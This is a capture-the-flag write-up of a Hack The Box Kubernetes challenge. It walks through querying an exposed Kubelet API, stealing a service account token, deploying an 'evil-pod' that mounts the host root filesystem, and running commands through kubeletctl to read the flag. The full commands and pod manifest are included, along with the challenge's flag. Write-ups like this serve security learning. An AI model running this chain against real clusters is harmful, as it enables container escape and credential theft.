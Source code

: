 # Uni CTF 2021 Quals

## SteamCloud Cloud category challenge write-up :

![Challenge Description](images/Screen_Shot_2021-11-22_at_1.28.11_PM.png)

Last weekend me and my team #Heaven's_Birds participated in Uni CTF 2021 Quals organized by @ HacktheBox .

From the description we knew we were dealing with a k8s cluster. First we attempted to scan the host address we got after starting the machine ( which was different than the node's address running the cluster).

![Machine Data](images/Screen_Shot_2021-11-23_at_12.12.08_PM.png)

Basically we expected some K8s ports to be opened( See: [https://kubernetes.io/docs/reference/ports-and-protocols/](https://kubernetes.io/docs/reference/ports-and-protocols/) ), after running `nmap -sC -p-` on host and as expected we found the **Kubelet API** port opened **10250.**

We tried then to list existing pods by sending a get request to `[http://10.129.96.107:10250/pods](http://10.129.96.107:10250/pods)` , the response returned pods from `kube-system` namespace and one pod from `default` one. It was an nginx pod, and it also listed an interesting address `10.129.96.98` which was the address of the node running the cluster ( the cluster was deployed on a single machine using minikube so the master and worker node are the same machine).

After googling a lil bit we found this interesting tools to communicate with kubelet API **`Kubeletctl`**

After playing around lil bit with the tool, we run a scan for rce by issuing `kubeletctl scan rce` command. and the result was that nginx pod (and also kube-proxy) were vulnerable to remote code execution. Then we head to `/run/secrets/kubernetes.io/serviceaccount/` to grab the credentials for the default service account that we are going to use later when interacting with `***kube-apiserver.`*** 

A quick scan on the host address found before lists our famous `8443` kube-apiserver port. We can now use kubectl command and the token we grabbed before to interact with kube-apiserver.  

We also played with the command a lil bit trying to list pods and other resources , but we could only list cluster nodes and pods using:

**`kubectl  --insecure-skip-tls-verify=true --server="[https://$](https://%24/){IP_ADDRESS}:8443" \
--token="${TOKEN}" \
get nodes,pods --namespace=default`.**

We tried then to deploy a pod if we have permission to that, and it was successfully deployed , but we had one issue the pod kept showing `ImagePullBackOff`, we knew then the image is not going to be pulled so we decide to use an already pulled image from the nginx pod configuration, and our evil pod was like the following: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
  labels:
  name: evil-pod
  namespace: default
spec:
  containers:
  - image: nginx:1.14.2
    imagePullPolicy: Never
    name: evil-container
    volumeMounts:
    - mountPath: /host
      name: node-mount
  volumes:
  - name: node-mount
    hostPath:
      path: /
```

Our pod was successfully deployed and running, then we had back the our `kubeletclt` command to execute some commands on our pod, of course we tried to execute a shell on the pod but no luck:

**`kubectl  --insecure-skip-tls-verify=true --server="[https://$](https://%24/){IP_ADDRESS}:8443" \
--token="${TOKEN}" \
exec -it evil-pod --namespace=default -- /bin/sh` .**

The `kubeletctl -s 10.129.96.98 exec "ls -la /host" -p evil-pod -c evil-container`  command is to check that our hostPath was successfully mount on the node, and is was.

Then `kubeletctl -s 10.129.96.98 exec "ls -la /host/root/flag.txt" -p evil-pod -c evil-container` to cat the flag.

**HTB{d0n7_3Xpo53_Ku83L37}.**
